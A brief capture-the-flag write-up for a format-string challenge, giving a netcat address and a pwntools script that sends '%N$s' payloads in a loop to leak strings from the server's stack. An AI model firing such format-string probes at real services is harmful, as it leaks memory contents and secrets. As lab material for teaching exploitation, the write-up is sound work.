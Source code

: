 # format_string ftw

#### tags: #pwn

## Description

No one should see what I have in stack! Its only mine!

`nc 139.59.0.163 7777`

>Author: `peace_ranger`

## Solution
We are only given a connection information. we can connect to this via netcat. as this is a black box challenge where the clues are given in the challenge name and description, nothing else need to be said. The following exploit should work just fine:
```python
#!/usr/bin/env python

from pwn import *


for i in range(1,200):
    p = remote("139.59.0.163",7777)
    x = f'%{i}$s'
    p.recvline()
    p.sendline(bytes(x,"UTF-8"))
    print(p.recvline())

```